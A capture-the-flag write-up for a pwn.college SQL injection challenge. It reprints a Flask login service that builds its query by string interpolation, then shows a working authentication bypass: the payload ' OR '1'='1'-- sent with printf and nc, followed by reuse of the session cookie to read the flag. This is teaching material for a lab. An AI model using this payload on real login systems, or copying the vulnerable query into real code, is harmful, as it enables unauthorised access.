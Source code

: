 # 💉 SQL Injection 2 — Writeup

## 🧠 Challenge Overview

This challenge is another classic SQL injection example. We are given a web login form and Flask source code that contains a vulnerable SQL query.

---

## 🧬 Source Code

```python
#!/opt/pwn.college/python

import flask
import os
import sqlite3
import tempfile

app = flask.Flask(__name__)

class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result

db = TemporaryDB()

# Setup users table
db.execute("""CREATE TABLE users AS SELECT "admin" AS username, ? as password""", [os.urandom(8)])
db.execute("""INSERT INTO users SELECT "guest" as username, 'password' as password""")

@app.route("/authenticate", methods=["POST"])
def challenge_post():
    username = flask.request.form.get("profile-name")
    password = flask.request.form.get("pass")
    if not username:
        flask.abort(400, "Missing `profile-name` form parameter")
    if not password:
        flask.abort(400, "Missing `pass` form parameter")

    try:
        query = f"SELECT rowid, * FROM users WHERE username = '{username}' AND password = '{password}'"
        print(f"DEBUG: {query=}")
        user = db.execute(query).fetchone()
    except sqlite3.Error as e:
        flask.abort(500, f"Query: {query}\nError: {e}")

    if not user:
        flask.abort(403, "Invalid username or password")

    flask.session["user"] = username
    return flask.redirect(flask.request.path)

@app.route("/authenticate", methods=["GET"])
def challenge_get():
    if not (username := flask.session.get("user", None)):
        page = "<html><body>Welcome to the login service! Please log in as admin to get the flag."
    else:
        page = f"<html><body>Hello, {username}!"
        if username == "admin":
            page += "<br>Here is your flag: " + open("/flag").read()

    return (
        page
        + """
        <hr>
        <form method=post>
        User:<input type=text name=profile-name>Password:<input type=text name=pass><input type=submit value=Submit>
        </form>
        </body></html>
    """
    )

app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```
---

## Vulnerability
The SQL query is constructed insecurely with string interpolation:
```bash
query = f"SELECT rowid, * FROM users WHERE username = '{username}' AND password = '{password}'"
```
This makes it trivially injectable via form input, especially since both values are directly wrapped in single quotes.

--- 

## Exploit

### Step 1: Send injection payload
You can bypass the password check with:
```
' OR '1'='1'--
```
So the request becomes:
```bash
printf "POST /authenticate HTTP/1.0\r\nHost:challenge.localhost\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:38\r\n\r\nprofile-name=admin&pass=' OR '1'='1'--" | nc challenge.localhost 80
```
This sets the cookie:
```
Set-Cookie: session=eyJ1c2VyIjoiYWRtaW4ifQ.aHy0bQ.aC8W_sVw82LZLYh2G8YbS9EcjP0
```

### Step 2: Access flag using cookie

```bash 
printf "GET /authenticate HTTP/1.0\r\nHost:challenge.localhost\r\nCookie: session=eyJ1c2VyIjoiYWRtaW4ifQ.aHy0bQ.aC8W_sVw82LZLYh2G8YbS9EcjP0\r\n\r\n" | nc challenge.localhost 80
```

---

## Flag
```
Hello, admin!<br>Here is your flag: pwn.college{AFxDtmMoLyKvnPrHtMvQ_oJ0UQ4.QXwkzMzwSM0IzMyEzW}
```
Flag: pwn.college{AFxDtmMoLyKvnPrHtMvQ_oJ0UQ4.QXwkzMzwSM0IzMyEzW}

---

